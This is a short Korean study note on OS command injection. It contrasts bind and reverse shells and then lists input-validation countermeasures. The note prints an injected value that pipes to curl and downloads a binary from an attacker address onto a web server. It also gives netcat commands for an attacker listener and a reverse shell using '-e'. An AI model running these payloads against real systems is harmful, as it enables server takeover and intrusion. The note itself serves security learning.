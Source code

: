 ```yaml
---
CMDS: Security
관련 문서:
  - "[[109 Security]]"
tags:
  - "#OS_Command_Injection"
---
```

## OS Command Injection

<center><i>시스템 명령어를 주입하는 공격</i></center>

웹 서비스에서 시스템 명령에 직접 접근할 일이 굉장히 한정적이기 때문에 SQL Injection보다 치명적이지만, 크게 주목받지 않음

  

#### 공격 원리
    
    → 사용자 입력 값에 추가 시스템 명령어를 입력해 공격 시행
	

- Bind-Shell → 정방향 연결
	- 클라이언트에서 서버에 요청을 해서 서버가 응답하는 방식
- Reverse-Shell → 역방향 연결
	- 서버에서 클라이언트에게 요청을 해서 클라이언트가 응답하는 방식

  

netcat 프로그램을 이용해서 reverse shell을 가능하게 만듦

3) Netcat을 서버에 업로드

→ 127.0.0.1|curl -o board.exe http://192.168.0.200/board.exe

4) 공격자 PC Netcat 리스닝

→nc.exe -lvp 9999

5) 웹 서버 Netcat 명령어 실행을 통한 Reverse Shell 연결

→ nc.exe [Hacker IP] [Port] -e [Shell]

  

이후 해커가 하는 일
	→ 네트워크 정보 획득
	→ 수집한 정보를 토대로 다른 서버 침투 (DB)

  
#### 대응방안
1. 서버 사이드 스크립트로 기능 구현
2. 사용자 입력 값 형식에 따른 정규 표현식 검증
    - 정규 표현식 사용 ( pattern.matches, preg_match )
3. 악의적인 문자 검증
    - 정규 표현식으로 악의적인 기능이 가능한 특수문자 (&,`,| 등)를 사용 못하도록 함
4. 기능 제거